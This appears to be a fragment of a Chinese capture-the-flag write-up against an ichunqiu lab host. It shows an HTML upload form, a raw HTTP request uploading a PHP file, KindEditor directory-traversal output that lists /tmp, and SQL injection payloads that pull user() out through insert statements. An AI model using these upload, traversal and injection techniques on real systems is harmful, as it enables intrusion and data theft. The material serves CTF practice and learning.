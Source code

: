 ```html

<body>
    <form name="uploadform" method="POST" enctype="multipart/form-data" action="http://a0a4658b4ffd4fd18c31e517298bdab2354db44e8a76409e.game.ichunqiu.com/blog_manage/manager.php?module=manager&name=php">
        uploadfile1:<input type="file" name="file1" size="30" />
        <input type="submit" name="submit" value="submit">
    </form>
</body>
```



```HTTP
POST /blog_manage/manager.php?module=manager&name=php HTTP/1.1
Host: a0a4658b4ffd4fd18c31e517298bdab2354db44e8a76409e.game.ichunqiu.com
Proxy-Connection: keep-alive
Content-Length: 301
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5Do6jxgpB9iSAysY
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,da;q=0.8
Cookie: chkphone=acWxNpxhQpDiAchhNuSnEqyiQuDIO0O0O; UM_distinctid=16247d7d097356-0eaa2ac7f9faa6-33657804-fa000-16247d7d0987dc; pgv_pvi=83799040; pgv_si=s3807689728; Hm_lvt_2d0601bd28de7d49818249cf35d95943=1521344425,1521605028,1521605097,1521606149; Hm_lvt_9104989ce242a8e03049eaceca950328=1519450148,1521344434; Hm_lpvt_9104989ce242a8e03049eaceca950328=1521623759; Hm_lvt_1a32f7c660491887db0960e9c314b022=1519450148,1521344434; Hm_lpvt_1a32f7c660491887db0960e9c314b022=1521623759; browse=CFlZTxUYU0BfU1FGVQJTRFBZSkdeQFFYWVBFR11RWEVTUFFPWkBLThQ; ci_session=dae562b72bd97d0b9d72b0d661328ef64677d85a; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1521696264; PHPSESSID=s3f94o7e9ijral16iguv7ou1s0

------WebKitFormBoundary5Do6jxgpB9iSAysY
Content-Disposition: form-data; name="file1"; filename="phpinfo.php"
Content-Type: text/php

<?php phpinfo();?>
------WebKitFormBoundary5Do6jxgpB9iSAysY
Content-Disposition: form-data; name="submit"

submit
------WebKitFormBoundary5Do6jxgpB9iSAysY--

```

3. 再先观察一下tmp目录下（我上传了两次）

```
/var/www/html/kindeditor/attached/../../../../../tmp/{"moveup_dir_path":"..\/..\/..\/..\/..\/","current_dir_path":"..\/..\/..\/..\/..\/tmp\/","current_url":"\/kindeditor\/php\/..\/attached\/..\/..\/..\/..\/..\/tmp\/","total_count":2,"file_list":[{"is_dir":false,"has_file":false,"filesize":18,"dir_path":"","is_photo":false,"filetype":"","filename":"phpTkgIzO","datetime":"2018-03-22 10:05:48"},{"is_dir":false,"has_file":false,"filesize":18,"dir_path":"","is_photo":false,"filetype":"","filename":"phpUUzi3T","datetime":"2018-03-22 10:07:17"}]}
```


[payload]:   1','2'),(user(),'
[sql]:       insert into article (date, title, content) values ('2018-03-21','1','2'),(user(),'','content');
[decode]:    select unhex(conv(125822936825964,10,16));
[payload]:  '+conv(hex(substr((user()),1,6),16,10)+'
[sql]:      insert into article (data, title, content) values ('2018-03-21',''+conv(hex(substr((user()),1,6),16,10)+'','content');